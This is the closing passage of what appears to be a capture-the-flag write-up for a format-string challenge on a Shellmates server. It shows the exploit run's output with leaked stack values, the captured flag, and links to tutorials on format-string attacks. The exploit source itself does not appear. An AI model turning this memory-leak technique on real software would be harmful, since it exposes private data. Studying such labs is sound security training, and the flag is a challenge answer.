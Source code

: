 Result :

```
[+] Opening connection to pwn.challs.ctf.shellmates.club on port 1401: Done
[*] Switching to interactive mode
Hi, AA\xa0\xc1\xfbW 0x32 0xf7ee5620 0x56601259 (nil) (nil) 0x41410000 shellmates{FMT_STR1NG_HITS_AGAIN} 
[*] Got EOF while reading in interactive
```


## Flag

shellmates{FMT_STR1NG_HITS_AGAIN}

## More Information

 - Format String attack : https://owasp.org/www-community/attacks/Format_string_attack
 - Format String leak : https://wiki.bi0s.in/pwning/format-string/leak/
 - How to Read & Write to a Program's Memory Using a Format String Vulnerability  : https://null-byte.wonderhowto.com/how-to/exploit-development-read-write-programs-memory-using-format-string-vulnerability-0181919/
 - Format specifiers : https://www.freecodecamp.org/news/format-specifiers-in-c/
